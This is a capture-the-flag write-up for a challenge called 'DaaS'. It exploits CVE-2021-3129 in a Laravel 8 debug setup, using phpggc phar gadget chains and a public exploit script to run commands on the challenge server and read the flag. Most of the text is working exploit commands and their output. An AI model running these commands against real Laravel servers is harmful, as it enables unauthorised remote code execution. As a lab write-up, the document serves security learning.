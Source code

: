 # DaaS
This challenge takes is a default setup of a Laravel page.
In the bottom left we can see its `Laravel v8.35.1 (PHP v7.4.16)`

![](https://i.imgur.com/ng0QWzk.png)

After doing some research, there is **CVE-2021-3129** which there is tool to exploit: https://github.com/ambionics/laravel-exploits

Exploit:
```bash=
$ php -d'phar.readonly=0' ../phpggc/phpggc --phar phar -o /tmp/exploit.phar --fast-destruct monolog/rce1 system ls

$ ./laravel-ignition-rce.py http://139.59.168.47:31326/ /tmp/exploit.phar   
+ Log file: /www/storage/logs/laravel.log
+ Logs cleared
+ Successfully converted to PHAR !
+ Phar deserialized
--------------------------
favicon.ico
index.php
robots.txt
storage
web.config
--------------------------
+ Logs cleared


$ php -d'phar.readonly=0' ../phpggc/phpggc --phar phar -o /tmp/exploit.phar --fast-destruct monolog/rce1 system "ls ../.." 

$ ./laravel-ignition-rce.py http://139.59.168.47:31326/ /tmp/exploit.phar                                                                                                                                                         
+ Log file: /www/storage/logs/laravel.log
+ Logs cleared
+ Successfully converted to PHAR !
+ Phar deserialized
--------------------------
bin
boot
dev
entrypoint.sh
etc
flagInA6d
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
www
--------------------------
+ Logs cleared
       
       
$ php -d'phar.readonly=0' ../phpggc/phpggc --phar phar -o /tmp/exploit.phar --fast-destruct monolog/rce1 system "cat ../../flagInA6d"                                                                                                
$ ./laravel-ignition-rce.py http://139.59.168.47:31326/ /tmp/exploit.phar

+ Log file: /www/storage/logs/laravel.log
+ Logs cleared
+ Successfully converted to PHAR !
+ Phar deserialized
--------------------------
CHTB{wh3n_7h3_d3bu663r_7urn5_4641n57_7h3_d3bu6633}
--------------------------
+ Logs cleared
```

And there's the the flag `CHTB{wh3n_7h3_d3bu663r_7urn5_4641n57_7h3_d3bu6633}`